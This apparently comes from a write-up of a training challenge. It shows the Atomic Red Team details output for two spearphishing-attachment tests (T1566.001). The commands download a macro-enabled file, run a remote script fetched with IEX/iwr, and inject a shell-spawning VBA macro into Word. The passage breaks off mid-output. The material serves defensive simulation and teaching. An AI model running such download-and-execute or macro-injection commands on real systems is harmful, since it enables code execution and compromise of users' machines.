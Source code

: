 The challenge text give a description of the command and it's parameters, but I'm not going to copy that here. It's worth visiting the page to read the information.

The text mentions that the attack technique used was [T1566.001](https://attack.mitre.org/techniques/T1566/001/). We can get more information on this technique by running the following command:

```powershell
> Invoke-AtomicTest T1566.001 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" and PhishingAttachment.txt
 are downloaded to the %temp% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
$url2 = 'http://localhost/PhishingAttachment.txt'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
Invoke-WebRequest -Uri $url2 -OutFile $env:TEMP\PhishingAttachment.txt

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
Remove-Item $env:TEMP\PhishingAttachment.txt -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
```
